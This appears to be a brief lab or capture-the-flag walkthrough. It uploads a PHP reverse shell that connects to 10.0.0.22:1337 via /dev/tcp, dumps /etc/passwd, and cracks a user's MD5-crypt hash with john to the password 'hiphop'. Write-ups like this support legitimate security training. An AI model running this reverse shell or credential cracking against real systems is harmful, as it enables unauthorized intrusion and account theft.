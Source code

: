 Upload a PHP shell file *revshell.php*:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.22/1337 0>&1'");
```

Change permission of the uploaded file until we got execute permissions. then access the file at http://10.0.0.21/revshell.php

![[Pasted image 20240420114845.png]]

/etc/passwd:
```bash
[...]
karla:x:1000:1000:karla:/home/karla:/bin/bash
[...]
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```

Identify hash of oracle:
![[Pasted image 20240420120514.png]]

Crack hash with john:
![[Pasted image 20240420120255.png]]
=> password: hiphop